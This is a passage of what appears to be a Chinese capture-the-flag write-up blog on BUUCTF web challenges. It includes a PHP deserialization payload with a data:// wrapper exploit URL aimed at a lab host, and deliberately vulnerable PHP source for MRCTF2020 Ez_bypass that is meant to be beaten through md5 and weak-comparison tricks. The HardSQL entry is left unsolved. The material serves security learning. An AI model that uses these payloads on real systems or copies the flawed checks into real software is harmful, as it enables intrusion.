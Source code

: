 ```
echo serialize($res)
?>  

```

// O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}  

```
http://e9da7177-8ee3-46c4-b70e-041ff54908af.node5.buuoj.cn:81/?text=data://text/plain,welcome to the zjctf&file=useless.php&password=
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

# [MRCTF2020]Ez_bypass

### bypass:

RCE绕过

```php
<?php
include 'flag.php';
$flag = 'MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';

if (isset($_GET['gg']) && isset($_GET['id'])) {
    $id = $_GET['id'];
    $gg = $_GET['gg'];

    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if (isset($_POST['passwd'])) {
            $passwd = $_POST['passwd'];

            if (!is_numeric($passwd)) {
                if ($passwd == 1234567) {
                    echo 'Good Job!';
                    highlight_file('flag.php');
                    die('By Retr_0');
                } else {
                    echo "can you think twice??";
                }
            } else {
                echo 'You can not get it !';
            }
        } else {
            die('only one way to get the flag');
        }
    } else {
        echo "You are not a real hacker!";
    }
} else {
    die('Please input first');
}
?>
```

![image-20241210235834639](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241210235835539-795665987.png)

php 强弱比较

# [极客大挑战 2019]HardSQL

这题不会 睡觉了

